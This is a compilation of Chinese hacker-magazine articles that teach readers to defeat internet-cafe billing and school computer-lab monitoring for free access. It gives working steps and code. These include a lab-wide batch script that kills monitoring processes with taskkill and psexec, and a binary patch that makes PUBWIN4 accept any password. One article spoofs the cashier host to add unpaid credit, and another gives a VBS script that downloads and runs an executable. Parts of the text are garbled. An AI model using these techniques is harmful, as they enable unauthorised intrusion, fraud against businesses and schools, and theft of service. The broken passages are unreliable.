最近明星们都出了不少的新歌，相信大家都想把自己偶像的歌曲放到自己的QQ空间里吧，可是结果却是这样，如图1，一首歌居然问我们要2.5元，相信小菜们不会为了添加一首歌就要花费2.5元吧，那有没有其它的方法呢？方法当然有的，只要我们开通了绿钻，那么所有的歌曲就都免费了，但是开通绿钻还要10块钱，如图2，有不要钱的方法吗？答案也是肯定的，下面我就教大家如何免费让QQ空间唱起来！


图1

第一步：首先找到你要添加的歌曲的URL，也就是歌的地址，我们到百度看看，如图3。

好多哦，眼都看花了，随便选择一首歌曲。


图2

对着歌名点击鼠标左键，地址是不是出来了http://hao8hao.com/upload/music/J/U/N/JUNE/1222095278090.mp3，把地址复制下来然后来到自己的空间，依次点击导航“音乐盒—添加音乐—网络添加”，在“添加URL”处填上刚才找到的MP3地址，下面的就随便填了，如图4。


图3


图4

最后点击“提交”就可以了，现在我们已经把音乐添加上了，接着点击“设为背景音乐”，这样就可以把这首歌设置为我们QQ空间的背景音乐了，如图5。


图5

不过没有播放器的话空间是不会唱歌的，因此我们还要添加播放器，播放器的代码如下：

```
水晶播放器
<embed src="http://www.taospace.cn/MP3/1/6bbf67babdef7d3eb8d654a22f88a7b1.mp3" width="200" height="20" type="audio/mpeg" loop="-1" autostart="true">
时空播放器
<embed src="http://www.taospace.cn/MP3/1/911f128d02b3486333769c71495a770c.mp3" width="200" height="20" type="audio/mpeg" loop="-1" autostart="true">
蓝色简洁播放器
<embed src="http://www.taospace.cn/MP3/1/3b0a2b6af86d3477097498c18a67a9ee.mp3" width="200" height="20" type="audio/mpeg" loop="-1" autostart="true">
古典风格播放器
<embed src="http://www.taospace.cn/MP3/1/b6d547a63a37f16b57d0b87f383e64b1.mp3" width="200" height="20" type="audio/mpeg" loop="-1" autostart="true">
```

找一个自己喜欢的吧，不会添加播放器的请参考以前X档案上的相关文章，这里我就不多说了。到这里就算是完成了，使用这种方法，可以添加无数歌曲哟！


**网吧黑客**

### 零工具再造网吧免费上网神话

XiaoYY

这天来到网吧下载资料，想到四川的灾民同胞还处在水深火热之中，不禁有感而发，当看到网吧中的计费软件时就暗暗的下定决心一定要破解掉它，帮助那些为了学习技术而在网吧奋斗的父子们省下钱来献爱心（小编注：原来在网吧中免费上网就是为了向灾区人民献爱心呀，值得表扬，只是这种做法不能提倡）。

计费软件总体上可以分为两种——硬件插卡型和软件计费型，我们这次只讨论软件计费型，不过大家也可以使用此方法试一试硬件型的，或许会有意想不到的结果哦。

软件型计费软件的原理是客户端和计费端双验证模式。也就是说，当你把电脑打开，客户端就会提示网管此机已打开，当你输入卡号和密码上网时，客户端就会提示网管有人在付钱上网，其余的活动一样，然而计费端与之不同，当你输入卡号和密码后使用电脑时它才会计费，不输入是不会计费的，如图1。

我们大部分的操作，例如破坏计费端等，都会被客户端清清楚楚的看到。就像图上看到的一样，我们只要堵上自己机子的嘴巴，就可以达到免费的目的了，不过当主机也就是服务端连接你的时候，会因为你这机子的失控而引起人为干预，也就是说这样做很危险，但事实上网吧中的大多数管理员都不会管这种情况，这与其自身水平和文化程度成正比。

说了这么多，也该讲到重点了，大家可以发现，网吧里的计费软件其实都是应用程序，我们只要让它启动不起来，也就是如上图所说的让它失去执行命令的能力，我们就可以免费上网了。那么怎样能让这个应用程序失效呢？怎样找到这个程序呢？随着问题的增多，难度也随之加大，这并不是本文的初衷，所以我们采取牺牲所有程序的方法来让它停下来！为了增加难度，我使用卡巴斯基 7.0 并打开主动防御以及 360 保险箱来为大家进行突破演示。

首先进入注册表，打开记事本，将 regedit.exe 写入文本文档中，将文件保存为 reg.bat，运行 reg.bat 来打开注册表，找到 [HKEY_CLASSES_ROOT\.exe]，将默认的 exefile 改为 txtfile，如图 2，修改前请将此项备份。


注销系统，这时所有 EXE 后缀的程序图标都将变成文本图标，我们会发现自己电脑上有好多文本框架，此时 360 保险箱和卡巴斯基都不会有什么反应了，如图 3，图 4。我们可以任意的关掉它们，至此破解完成。


我再给大家进行一些细节上的补充，系统无法注销的话，我们可以将“shutdown -l”写入文本文件中，将文件保存为“注销.bat”，然后运行，注销后需要用户登录，之前我们可以添加一个用户并添加进管理员组中，方法请参见随本文收录的 BAT 文件。如果要运行的 EXE 文件运行不了，我们可以将其后缀名改为 *.bat、*.pif、*.com 等格式，最后使用 reshacker 更改 360 保险箱的图标从而达到伪装的目的，这样就更加隐蔽了。

（本文所涉及到的.bat、.reg 文件、reshacker 及相关程序等已收录到光盘中）

### 徒手搞定整个机房

杨税令

#### 一、前言

前段时间的地震闹的人心惶惶，学校也停课两周，按理说都半个月过去了，这地震也该歇歇气了，可余震却隔三岔五的来问候一次，害得我们是天天过着提心吊胆的日子。在这种连性命都不敢保证的气氛下，我们这群学生也早就忘了学习这回事，可学校却偏偏在这个时候复了课。我们是计算机学校，几乎每天都有上机课，现在被地震搞得都无心学习，于是就琢磨着大战 CS，可学校的电脑中有监控程序，一旦发现你期末成绩不保，于是我就想到了破解监控程序。

电脑使用的是“凌波多媒体监控中心”和“金盘电子阅览室管理系统”，其破解方法我在 07 年第 11 期的黑客 X 档案上提过，自从那篇文章刊登后，学校的每台电脑上就多了一个“pc security 系统保护”（图 1）。按 Ctrl+Alt+Del 组合键没有任何反应，大多数系统命令不能执行，批处理程序也不能运行（图 2）；我曾试过使用 C 语言中的 System() 函数来调用系统命令和使用 delphi 中的 winexec() 函数调用系统命令或使用 Registry 类对象直接操作注册表，可都是不行。经过后来一段时间的试验，我终于找到了破解“pc security 系统保护”的方法。


#### 二、小试牛刀

“pc security系统保护”程序在系统目录System32文件夹下有两个关键文件winser.exe和winsersec.exe（图3），这两个文件无法删除，但却可以改名。“pc security系统保护”有两个关键进程sdaemon.exe和winsersec.exe，相互监视。“pc security系统保护”还有一个名为winser的系统服务，描述为空，启动类型为自动（图4）。


首先到系统System32目录下找到winser.exe和winsersec.exe这两个文件，分别改名为任意名字，然后在“我的电脑”上点击鼠标右键，选择“管理”（图5），选择“服务和应用程序”下的“服务”（图6），从右侧的服务中找到Winser服务项，双击后更改启动类型为“已禁用”（图7）。


确定后点击左上角的“停止”按钮（图8），此时会出现无法停止的提示（图9），不用管它，单击确定后再次点击“停止按钮”，此时服务停止进度框在走到一半时会停下来（图10），依然不用管它，在“开始”-“运行”栏中输入“tskill client.exe”命令来结束掉“金盘电子阅览室管理系统”（金盘电子阅览室管理系统不允许注销计算机），然后注销计算机。


注销后重新登录计算机，如果账户设有密码的话，需要先破解账户密码或者新建账户，其具体操作请翻阅以前的杂志。正常登录后便可以正常打开任务管理器和CMD了（图11），但却有如图12所示的提示框，这个提示框是“pc security系统保护”出错的提示。通过任务管理器可以看到此时“pc security系统保护”依然在运行（图13），但却没有起任何作用。只要没有系统操作限制，破解监控系统就变得轻而易举了。


在“开始”-“运行”栏输入msconfig来运行系统配置程序，切换到“启动”选项，把除“ctmon”（输入法程序）和“RavTask”（瑞星杀毒软件）外的所有选项取消掉（图14），单击确定后选择“稍后重新启动”。在“运行”栏输入tskill client.exe后注销计算机，重新登录，此时计算机就没有任何限制了（图15）。


#### 三、试探曹营

计算机没有了监控，可以放心的玩游戏了，可毕竟CS不是一个人玩的游戏，但我要是为每个同学破解监控的话那得花多大的力气呀？于是我就想能不能一下子把所有人的监控都给关了？经过一段时间的试验，我发现了下面这个方法。学校计算机利用还原卡的强大还原功能安装了双系统WinXP和Win2000，这两个系统相互不可见，也就是说在WinXP下看不到任何一个Win2000的文件，然而学校计算机的游戏都安装在Win2000下，这就使得所有想玩游戏的同学都得进入Win2000系统，这就给我的这个方法提供了可能性。依据我多年使用电脑的经验，Windows操作系统自身提供的大多数远程管理类命令在Win2000下都能正常运行，前提是帐户名和密码要正确，而“凌波多媒体监控中心”和“金盘电子阅览室管理系统”非常脆弱，其进程可以使用任务管理器结束掉，所以我们可以使用Windows操作系统自带的远程任务管理命令结束掉远程计算机上的监控系统。进入CMD输入ipconfig查看本机的IP地址（图16），然后任意选择一个同网段的IP进行测试。命令格式为tasklist /s 210.41.XX.XX /u user /p password，此命令的作用是列举该主机的进程列表，测试结果如图17所示，说明可以进行远程任务管理。


接下来我们只需要把Client.exe和Ncstu.exe及其子进程结束掉就行了，命令格式为taskkill /s 210.41.XX.XX /u user /p password /im client.exe /f /t，此命令的作用是强行结束该主机的client.exe进程及其子进程，把client.exe改为Ncstu.exe再执行一次就可以了（图18）。为了验证刚才的操作，我们再一次列举该主机的进程列表（图19），没有发现Client.exe和Ncstu.exe，说明我们的操作成功了。


#### 四、大开杀戒

测试成功了，说明这个方法完全可以使用命令来完成，既然可以用命令完成，那么也就可以用批处理程序来执行批量操作。由于机房的计算机数量大，如果使用批处理来依次执行的话需要花大量的时间，所以我们需要一个可多线程操作的批处理程序，让整个机房所有的监控同时关闭。经过几天的测试，我写下了如下程序代码：

```
@mode con:cols=50 lines=13
::设置窗口大小
@echo off
::关闭命令提示
color f1
::设置窗口和字体颜色
echo 正在准备文件...
::显示提示信息
title 唯我独尊主程序
::设置窗口标题
if exist ko.bat del ko.bat /f /s /q>nul
::如果存在这个文件则删除
echo.@mode con:cols=50 lines=13>ko.bat
echo.@title 正在连接 %%1 号...>>ko.bat
::向文件写入设置窗口标题命令
echo.@echo off>>ko.bat
echo.color f1>>ko.bat
echo.echo 正在结束“凌波多媒体监控中心”>>ko.bat
echo.if exist \%1\txt$ del \%1\txt$ /f /s /q>nul>>ko.bat
echo.taskkill /s %1 /u news /p newsdown /im client.exe /f /t>>nul 2>nul>>ko.bat
```

向文件中写入结束该主机client.exe进程及其子进程的命令，此处的news是用户名，newsadmin是用户名密码。

```
echo @echo 正在结束%1%发现多媒体监控系统...>>%0.bat
echo %1%taskkill /f /im %2\new.exe /im newsadmin /im NCSEC......>>%0.bat
echo %1%taskkill /f /im %2\new.exe /im newsadmin /im NCSEC......>>%0.bat
echo exit>>%0.bat

:: 查找主机
for /l %%i in (1,1,254) do (
echo 检查%1.%2.%%i
ping -n 1 -w 40 %1.%2.%%i >nul
:: 快速扫描 210.41.XX.X 网段的所有在线主机
if not errorlevel 1 (
:: 正在创建进程
psexec \\%1.%2.%%i -u %3 -p %4 -s notepad.exe
)
)

net time \\%1.%2.%%i /set /yes>nul 2>nul
echo 获取所有在线主机IP地址
start %0.bat %%i
echo 将要得到的IP地址传递给子程序并自动子程序
exit
:end
```

把以上代码用记事本保存为“唯我独尊.bat”后双击运行即可（图20、图21），如果不出意外的话，当图21中的窗口都关闭的时候，整个机房的监控也就都被关闭了。


#### 五、总结

使用上面的“唯我独尊”程序我是屡试不爽，杀CS经常杀得天昏地暗，自从那天成功破解后，我们私下里便把每天的上机课更名为“CS课”了。最近几天准备考试，每天都有海量的程序练习，而此时，玩CS的吵闹声就显得格外刺耳，在某天实在忍无可忍的情况下，一气之下把“唯我独尊”中的进程名换成了CS的进程“cstrike.exe”，数秒后，全机房的CS在没有任何征兆的情况下被同时关闭了，大家面面相觑，赶紧打开Microsoft Visual Studio做作业，原来所有人都以为是被老师发现了呢！（本文所涉及到的唯我独尊.bat已经收录到光盘中）

### 使用 OD 破解 PUBWIN4 实现免费上网

平时我们经常使用工具破解网吧计费软件来实现免费上网，不过用得多了就会感觉没意思，下面来看看我是如何使用手工来破解PUBWIN4的吧！

首先找到PUBWIN4的客户端主程序pubwin.exe（我上机的这家网吧是安装在E盘的，各地网吧的安装情况可能会有所不同），使用PEID查壳，发现它是使用Microsoft Visual C++ 6.0编写的，没有加壳，如图1。


接下来使用OD载入PUBWIN4客户端主程序pubwin.exe，载入后停留在了如图2所示的地方，我们使用OD的查找超级字符串功能来查找字符串，在上图的任意位置点击鼠标右键，选择“超级字符串参考”－“查找ASCII”，就会来到如图3所示的地方，慢慢往上翻我们就会看到“口令错误，请重新输入”这样一段代码，如图4。


双击此处代码，我们来定位关键的跳转，一般情况下都是从最近的跳转来看的。我们发现最近的一个跳转当用鼠标点时，会出现一条带有箭头的红线并指向“口令错误”的那几行代码，


如图5（小知识：一般红色线条代表实现的跳转，灰色的线条则表示未实现的跳转）。那么0040F19A很可能就是我们要定位的关键跳转，我们把它修改一下，JNZ表示不相等则跳转，把它修改为相等就跳转，这样修改后除了正确的管理员口令外，使用其它任意密码都可以登录，点击鼠标右键，选择“汇编”，将JNZ改为JE，同时把“使用NOP填充”前的勾取消掉，如图6。点击“汇编”按钮修改完成。修改后的代码会变亮显示，将修改的文件保存，点击右键，


选择“复制到可执行文件”—“全部修改”，OD 会提示我们是否将所做的修改保存到程序中，全部选择后 OD 会进入一个新的窗口，点击鼠标右键选择保存文件，将修改后的文件替换原文件或者直接放在桌面双击运行，运行后就会弹出 PUBWIN4 的登录窗口，选择管理员登录，直接使用空密码登录就可以了。至此整个破解过程就完成了，有兴趣的叉子可以试一下哟！

（本文所涉及到的 PEID、OD 已收录到光盘中）

### 看我怎么干掉任子行网吧管理系统

凤凰天成

好久没有去网吧上网了，以前网吧里使用的管理系统是万象 2006，现在居然全部换成了任子行网吧管理系统。桌面右下角那个绿色的方形文件夹图标就是它的程序图标，如图 1。我忍不住手痒对它进行了测试，所以也就有了今天的免费上网之旅。


首先请出利器 Wsyscheck，通过检查进程发现任子行的父进程是 rwyNCMc.exe，但我们不能直接结束它，不然的话会马上关机。其中还有保护进程 dismanager.exe、RService.exe、TerminalManager.exe、Terminal.exe，红色的表示非 Windows 进程，紫红色的表示虽然是 Windows 进程但其模块中有非 Windows 的文件，如图 2。这说明任子行把 dll 文件注入到了正常的系统文件中，被注入的正常系统进程有 ctfmon.exe、conime.exe、explorer.exe、winlogon.exe。单击 rwyNCMc.exe，我们可以看到 rwyNCMc.exe 调用的 dll 模块路径位于：C:\WINDOWS\system32\wyNCMc.exe、C:\WINDOWS\system32\carddll.dll、C:\WINDOWS\system32\BillDll.dll、C:\WINDOWS\system32\cmytec.dll、C:\WINDOWS\system32\wwm.dll。

我们断开网络连接，大家速度一定要快，不然任子行会自动检测如果 5 分钟内没有连接网络的话就会自动锁定。下一步我们把任子行注入到正常程序中的模块全部卸载掉，这里重点说一下 winlogon.exe 的卸载，它的模块路径位于 C:\WINDOWS\system32\skcla.dll，如果不把注入 Winlogon 的 DLL 卸载掉的话，过一会儿就会自动关机。但是卸载掉注入到 Winlogon 里的 dll 后就会弹出一个“Winlogon 通用控制对话：winlogon.exe - 应用程序错误”的对话框，如图 3，大家千万不要点它，不然会蓝屏的，把它拉到任务栏下面隐藏就行了。

紧接着把 wb321Client.exe、BarClientView.exe、ProcessSafe.exe、rwyNCMc.exe、dismanager.exe、RService.exe、TerminalManager.exe、Terminal.exe 全都勾上，然后点鼠标右键，选择“结束选择进程”，这样就大功告成了，快去开始你的免费之旅吧！


（本文所涉及到的 Wsyscheck 已收录到光盘中）

### 再破HR2004机房登录系统

宇宙婴儿

记得在“黑客X档案”2007年第1期的杂志中看到过一篇名为“简单破解HR2004”的文章，我们学校的机房使用的也是HR2004机房登录系统，我于是就照着杂志上所介绍的方法试了一下，可能是由于操作系统和设置不同吧，前面的一些步骤虽然可以执行，但到了最后总是差那么一步搞不定，最后我只好放弃了。这两天我突然又对HR2004产生了兴趣，奋战了几天，终于把它给破解了。我破解的步骤分为三步，其中第二步借鉴了2007年第1期杂志中那位朋友的思路。好了，下面就开始我们的破解之路吧！

#### 一、读取冰点还原精灵的密码

在尝试了那位朋友的方法后，我发现我们学校的电脑在按下Ctrl+Alt+Delete后并不会弹出有“锁定计算机”选项的对话框，而只有禁用任务管理器的提示。于是我想到了重启电脑，可学校的电脑中安装了冰点还原精灵，看来得首先把它破解掉才行。我在网上找到了一个名叫“冰点密码读取器”的工具，运行后的界面如图1所示，点击“确定”后就会出现如图2所示的界面，按照提示按下Ctrl+Alt+Shift+F6把冰点呼出来，如图3，在输入框随便输入个密码，点击“OK”，管理员密码就被读取出来了，如图4，点击“确定”后就自动进入设置界面了。


当然了，我们也可以记录下密码，这样下次就不用再运行破解程序了。选择“Boot Thawed”，点击“OK”，如图5，设置成功，以后电脑就不会被还原了，成功后的界面如图6所示。


#### 二、偷梁换柱，对付HR客户端

这一步就是借鉴2007年第1期“简单破解HR2004”一文中那位作者朋友的思路了，在C:\WINDOWS\system32目录下新建一个文件夹，然后找到该目录下的hrclient.exe，将其拖入到新建的文件夹中，将新建的文件夹重命名为hrclient.exe，如图7、图8，然后正常注销重启计算机（不知为什么以上步骤都要重复进行两次才能够成功）。


开机后HR的客户端就不会启动了，而被我们作为替换的那个文件夹则打开了，如图9。不用理会它，直接关闭就OK了。注意这时候一定要刷卡下机，否则还会计费的（提醒大家一定要在机房人少的时候玩，否则就太容易被发现了）。


增加虚拟盘符，可运行游戏软件。

启用文件系统，可进行盘符操作。

禁止运行游戏，用来防止运行其他程序如注册表编辑、注册表修改等，如：禁止运行注册表编辑器，禁止运行系统配置实用程序等。

注册表编辑器中增加了“手动修改注册表文件...”此功能主要供用pubwin4或其它方式启动系统后，清理系统文件中的自动运行程序。

在“自动防御”的选择中增加了“永远守护”与“永远不会终止”的功能。

一、清除木马后，增加系统稳定性。

二、其它修改与注意事项。

1. 解除锁定：
   解除锁定功能可以解除对IE进行免疫的功能
2. 解除锁定：
   把IE首页的eg，一般可一现“禁止恢复”后时的方法
3. 解除锁定：
   解除锁定“禁止恢复”，退出时把在只要时停止，这是最合理的方法。
4. 解除锁定：
   增加“系统安全”模式，在自动即中了，以免误用。但屏蔽了运行，增加了“系统安全”功能。


图 10

#### 三、防止无网管软件开启时的自动关机（同样适用于其它网管软件）

进行完前面的两步，本以为可以长长地松一口气来享受免费大餐了，可玩不了十分钟左右，电脑突然自动关机了。虽然重启之后还可以继续使用，但每隔十分钟就要重启一次，太不爽了。我在网上一阵狂搜，终于又找到了一个叫做SnipeSword（狙击剑）的工具，它的主要作用就是用来防止关机和重启。

运行后点击界面右上角的“快捷菜单”，在弹出的菜单中选择“禁止关机重启”，如图10，然后点击“关闭”就可以隐藏到托盘中。但是每当我们运行一个新的程序它都会询问你是否阻止，是不是觉得很烦呀，为了我们的免费大餐就请大家坚持十分钟，等电脑到了自动关机的时候狙剑会弹出一个窗口，在下拉菜单中选择“结束进程”，然后点击“确定”，这样一切就都搞定了，系统再也不会自动关机了，如图11。我们现在就可以放心地关掉狙剑，痛痛快快地享用免费的网络大餐了！不过此时在开始菜单中的关机项没有了，我们要想关机的话也只能断掉电源。此法同样适用于其它一些网管软件，请大家自行研究吧！


图 11

#### 四、善后工作

小菜玩黑，自然应该把安全放在第一位，玩过之后一定要记得善后。按下Ctrl+Alt+Shift+F6把冰点呼出来，输入已经得到的密码，把还原卡重新设置为“Boot Frozen”，再到C:\WINDOWS\system32目录下把名为hrclient.exe的文件删除掉（不用担心，系统会重新建立一个hrclient.exe文件）。此时HR登录界面很快就会跳出来。本文仅供学习研究使用，请大家不要玩得太过了火，否则被发现了可不要怪我没提醒大家哦。

（文章中涉及到的冰点密码读取器、SnipeSword，已经收录在光盘中）

### 破解PUBWIN4，网费任意加

magic.6.star

不知为何，我们这里的网吧特别BT，今年暑假全部统一把万象、美萍等换成了PUBWIN4，PUBWIN目前最新的版本是PUBWIN2008，居然还使用这么老的版本，难道网管也有怀旧心理？自从换了PUBWIN4，每次上网都要刷卡，还时不时有警察来检查，心里好怕怕，以前常用的一些免费上网的方法也用不上了。唉，郁闷呀！免费上网是不可能的了，只好想办法来加钱了。

我们需要用到的工具是pubwin4破解精灵V2005和pubwin4破解补丁。要给卡上加钱，一般都是到主机那儿找网管充值，我们先把自己的电脑模拟成主机。第一步：先得到主机的IP地址，在cmd命令提示符下使用ipconfig得到的Default Gateway只是网关的IP地址，一般用来进入管理路由器的，要检查主机的IP地址需要进入PUBWIN4的系统设置中，不过这需要有管理员的密码才行。

没关系，我们打开pubwin4破解精灵V2005，点击第一项“跳过管理密码认证——获取网吧管理密码”，如图1。


再把鼠标移到屏幕右下角，在网管计费图标上点右键，选择“系统设置”，使用空密码就可以进入，如图2。切换到“系统参数”项，在这里我们可以看到管理员的密码是以星号显示的，回到pubwin4破解精灵V2005中，找到“星号密码查看器”这一项，把那个放大镜拖到系统设置界面的星号密码位置，密码就会以明文方式显示出来了，如图3。把这个密码记录下来，下面我们还要用到的。往下继续看，在密码栏的下边有一串数字“192.168.0.200”，这个就是我们要找的网吧主机的IP地址了。


第二步：打开“PUBWIN4破解补丁”所在的文件夹，找到其中的安装文件“Setup.exe”，选择安装“收费端”，完成后依次进入“开始”—“程序”—“Hintsoft”—“PUBWIN4收费点”，打开收费界面，看看是不是与主机上的一样呢？点击左上角的“数据”—“设置服务器IP地址”，如图4，在弹出的对话框中输入刚才得到的主机IP地址“192.168.0.200”，点击确认后要求验证口令，输入刚才得到的密码就可以进入，不过我也曾遇到过提示密码错误的情况，大概是破解补丁已经把密码干掉了，那么我们直接使用空口令就


可以进入了。接着系统会提示我们“IP 地址设置成功”，如图 5。现在主机已经模拟成功了，我们可以以主机管理员的身份来加钱了。

临时卡的账户就点“功能”-“加预付款”，输入你当前使用的卡号，确认输入金额，我就充一元钱吧，在“更新定时”中选择“按预付款”，最后点击“确定”，充值成功，如图 6。我们检查一下，果然已经充上了。如果你是会员的话，那就依次点“会员”-“会员增值服务”-“储值卡会员加金额”，然后输入会员卡号和要充值的金额，如图 7。

成功充值后，就可以去刷卡上机了。除此之外，我们还可以利用它添加会员等等，功能特别丰富，大家请尽管放心，这一切的操作在主机上都不会有任何提示的，你想加多少都可以，使用一元钱开机后你想上多久都可以，如果你够狠的话，嘿嘿，说不定结账时还能收八元呢。至此 PUBWIN4 加钱圆满成功，剩下的就请各位自己尝试吧！

（本文所涉及到的 pubwin4 破解精灵 V2005、pubwin4 破解补丁已收录到光盘中）

### 谁说没有免费的“午餐”

为了赶潮流，我也买了一部 MP5，可是一直听歌，有点大材小用。某日，听同学说有个网吧里有许多电影，所以就跑去网吧下载电影了。

很久没有来网吧上网了，有种亲切的感觉，刷卡上机后，打开桌面上的“网吧电影”，里面的电影真多啊，如图 1。我插上播放器，找了一个电影，点击右键准备复制，可是奇怪的是右键菜单怎么也不出来。我又试了试“Ctrl+C”和“Ctrl+V”，仍然不行。听说迅雷可以复制，可我不会用啊。看来只能想其它的办法了。


我打开了根目录看看能不能找到别的破解方法，在根目录下只有两个文件，应该是服务端吧。也不大可能把电影给共享了，我验证了一下，果然不行。我有些无奈地打开了一个电影，无意中点开了暴风影音菜单上的“文件”，出现了“另存为”的选项，如图 2。顿时我灵光一闪，使用“另存为”进行保存不就行了吗？正常的出现了保存对话框，选择好存放的目录和名字后点击“保存”就行了，如图 3、图 4。


另外，我还发现不但暴风影音可以这样复制，Realplayer、Windows Media Player 等目前常用的大多数播放器都可以这样复制。不过，使用 Realplayer 有些复杂，要先点播放按钮上面的播放菜单按钮，出现如图 5 所示的窗口，然后再点保存按钮选择位置就可以了。现在，我们就可以把电影复制回家慢慢的看了，毕竟在网吧看电影也太烧钱了。

到此，我们的目的就达到了，本文也算不上什么破解，只能算是一个小技巧吧。也应验了一句话：“完美不是世上有的，漏洞是世上无处不在的”！


### 徒手也玩 ikeeper 免费上网

无声呐喊

看了好多期杂志上关于破解美萍、万象、pubwin 的文章，可遗憾的是我们这儿的网吧使用的却不是这些网管软件，而是不怎么出名的 ikeeper 网络管理软件。对于我这个经常在网吧上网的小菜来说，一个月上网的花费在爸妈所给的生活费中占很大的比例，为了省点钱吃饭，同时也为了对得起我看了几年的黑客X档案，我决定破解 ikeeper。

记得06年某期黑客X档案上有篇叫作“简单单破 ikeeper”的文章，文章中所介绍的就是在 Windows 启动时按F8，然后选择“目录恢复模式启动”就可以跳过 ikeeper 的启动了。可是如今08年都快过去大半，马上就要09年了，那一套方法早就不管用了。


在琢磨了一段时间后，我决定从启动项入手。

- 第一步：在“开始”-“运行”栏里输入“msconfig”，打开“系统配置实用程序”后，转到“启动”项，取消掉不熟悉的启动项目（这里面肯定包含了 ikeeper 网管软件），如图1。点确定后选择“退出而不重新启动”。
- 第二步：打开记事本写入下面两行批处理命令 `net user "%username%" 123、shutdown -f -t`，并将文件保存为 `www.bat`，如图2。第一行命令是把当前用户的密码更改为123，第二行命令是注销计算机。
- 第三步：运行 `www.bat`，进入系统登录界面，输入密码123，顺利登录，右下角的 ikeeper 图标也消失了，如图3。

终于松了一口气，然而破解工作并没有就此结束，似乎我高兴得太早了。当我在另外一台电脑上登录我的账号时，却提示账号已经在刚才的电脑上登录了，也就是说只要我没点结账，我的会员卡还在扣钱。唉，白忙活了半天。突然，我灵光一闪，把 `www.bat` 文件中的第二行命令改成了 `shutdown -t 20 -f -l`，如图4。参数“-t 20”表示把注销延长20秒（我们还可以把20改得更大一些）。再次运行修改后的 `www.bat`，趁这个20秒的时间我快速的点击换机（也可以点结账），然后重复上边的第三步。我选的是换机，再使用上网账号在另外一台电脑上登录，一切顺利，还空出了一台电脑。使用同样的方法我们可以想开多少台电脑就开多少台电脑！


至此，我的免费上网的目的就达到了，在网吧找一个人少的角落慢慢玩吧。提醒一下大家，这种方法不仅适用于 ikeeper，还适用于好多其它的网吧管理系统哟！

### 让网吧破解所向无敌

无敌小龙

#### 一、文件巧改名

网吧敌敌畏是一款小巧实用的网吧破解辅助工具，如果能在网吧使用这款工具的话，对突破网吧的各种限制将会有很大的帮助，尤其是可以突破网吧的下载限制和磁盘访问限制等等。现在，就请小菜们跟我一起把这个可执行文件制作成一个网页，实现只要能打开浏览器，就能下载这款网吧敌敌畏工具。

首先选择一台可以自由操作的个人电脑下载网吧敌敌畏这款工具，在下载解压完毕后，修改网吧敌敌畏.EXE 为网吧敌敌畏.HTML，然后在弹出的“重命名”对话框中点击“确定”按钮，如图1。使用记事本打开这个网吧敌敌畏.HTML 文件，我们会看到一堆乱码，如图2。


大家不要着急，选择“文件”下的“另存为”，如图3，在弹出的“另存网页”对话框中将“保存类型”选择为“网页，仅HTML”，如图4。注意，这里的保存类型只能选择“网页，仅HTML”，选择其它的类型都会导致下载的文件错误。同时，选择“网页，仅HTML”也是本文所要介绍的破解下载方法的核心和关键。最后点击“保存”按钮，就可以看到“网吧敌敌畏”被成功下载了，如图5。


（网吧敌敌畏软件图标文字）


刚才介绍了如何在本地电脑保存下载这个网吧敌敌畏，我们只要把刚才的网吧敌敌畏.HTML 文件上传到你的 WEB 服务器上或是你的网页空间中，就可以通过 `HTTP://URL/网吧敌敌畏.HTML` 来访问和突破下载了。

#### 二、隐藏的下载者

现在我们就从QQ着手，开始对网吧限制进行破解，打开QQ的网络硬盘，找到“网络记事本”，如图6，然后选择其中的一个文件打开，就可以打开网络记事本程序了。

为了配合记事本的使用，我们还要用到一个网吧下载器，在刚才打开的网络记事本程序中点右键，在弹出的快捷菜单中选择“插入对象”，如图7。在插入对象对话框中选择“由文件创建”，然后点击“浏览”按钮找到网吧下载器程序，最后点击“确定”来插入对象并保存刚才的网络记事本程序，如图8。这样就制作好了一个暗藏杀机于QQ网络硬盘的下载器了。

以后在网吧上网时，如果我们发现被禁止了下载，就可以使用刚才制作的网络记事本程序来突破网吧的下载限制了，如图9。在禁止下载的网吧里，打开QQ网络硬盘，找到网络记事本，双击那个插入了网吧下载器的文件，就会弹出一个打开文件的对话框，直接选择运行即可，如图10。接下来就可以使用网吧下载器来下载迅雷或 FLASHGET 了，这样网吧的下载限制也就轻易地被破解了，如图11。


之所以可以使用网络记事本来运行插入的对象，是因为这个网络记事本会把插入的对象上传到腾讯的网络服务器，当用户双击运行这个插入对象时，网络记事本内置的一个下载功能的模块就会自动下载这个插入对象，下载完毕后就会弹出窗口，提示我们是否运行。我们就是利用了网络记事本的这个内置的下载功能来实现下载网吧下载器的目的，继而突破网吧下载限制的。


#### 三、无所不能的脚本

如果大家觉得还不过瘾，我就再介绍一种可以破解网吧下载限制的方法，就是通过 VBS 代码来实现下载网络文件的目的，下面的代码就是通过 XML 实现了对网络文件 `http://127.0.0.1/down.exe` 的下载，并且将文件保存到 C 盘目录下，大家只要按照需要修改其中的部分代码段即可。具体代码如下，把代码保存为 DOWN.VBS，然后双击运行就行了。

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://127.0.0.1/down.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "c:\down.exe",2
wscript.sleep 1000
Shell.Run ("c:\down.exe") '延迟过后执行下载文件
```

（本文所涉及到的网吧敌敌畏、网吧下载器已收录到光盘中）

### 超级傻瓜式破解 PUBWIN2007

swan

本人菜鸟一个，在网吧上网时总是要想方设法的实现免费上网，虽然在黑客X档案杂志上也介绍过很多实用的方法，但作为一个合格的小菜就需要有不断探索的精神，要勇于发掘出更新颖更简单的方法，终于我在网上发现了一款名叫 Super Anti-lock Expert（超级防锁专家）的软件，至于它的工作原理，网上是这样介绍的：利用虚拟桌面技术防止桌面被锁定，利用 HOOK 技术禁止程序关机，禁止程序锁定鼠标。这样的话，使用这个软件防止桌面被锁，结账下机后，电脑仍处于开放状态，此时继续上机，服务台仍将会显示正常连接。


好了，开始我们的免费之旅吧！首先，当然是到收银台跟那位漂亮的 MM 说一声要上机，激活自己的账号，记得不要卡上没钱哦，至少也要有一块钱吧！找台比较僻静的电脑上机，输入自己的卡号以及密码，等待一会儿，习惯性地先登录QQ，在屏幕右下角看到了熟悉的网吧图标，如图1。将超级防锁专家解压后并运行，如图2，桌面马上切换到了虚拟桌面（如果想切换回原有的桌面，可以同时按 Win+1，回到此桌面就再按 Win+2）。

